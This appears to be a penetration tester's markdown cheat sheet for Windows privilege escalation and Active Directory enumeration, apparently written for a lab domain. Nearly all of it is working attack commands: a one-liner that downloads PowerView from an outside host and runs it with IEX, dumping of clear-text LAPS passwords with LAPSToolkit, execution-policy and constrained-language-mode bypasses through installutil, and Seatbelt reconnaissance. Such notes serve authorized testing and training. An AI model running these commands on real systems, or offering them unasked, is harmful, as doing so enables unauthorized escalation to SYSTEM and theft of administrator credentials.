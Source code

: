 # Windows PrivEsc
There are various ways of locally escalating privileges on a Windows box:

– Missing patches (PrintNightmare/Hivenightmare)

– Automated deployment, AutoLogon passwords, passwords in files in clear text

– AlwaysInstallElevated (Any user can run MSI as SYSTEM)

– Misconfigured Services

– DLL Hijacking and more

– NTLM Relaying a.k.a. Won't Fix

First run powerview to get an understanding on machine you are on and the role it plays.
```
(new-object system.net.webclient).downloadstring('http://10.10.16.161/PowerView.ps1') | IEX
```
Check for ms-mcs-admpwd

Check for Passwordless logins
```
get-NetUser -domain DEV.ADMIN.OFFSHORE.COM | Where-Object { $_.userAccountControl -band 0x20 } | Select-Object samaccountname,userAccountControl
```

# LAPSToolkit
Get-LAPSComputers method from LAPSToolkit to list all computers that are set up with LAPS and display the hostname, the clear text password, and the expiration time:

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1

PS C:\Tools> Get-LAPSComputers
```

Execution policy issues.
```
powershell -ExecutionPolicy Bypass -File script.ps1
```
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
* Contrained Langauge Bypass. Use installutil to bypass .exe restrictions. `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /logtoconsole=false /U C:\users\Public\bypass-clm.exe`
* Seatbelt.exe `Seatbelt.exe -group=all -full`
https://github.com/GhostPack/Seatbelt
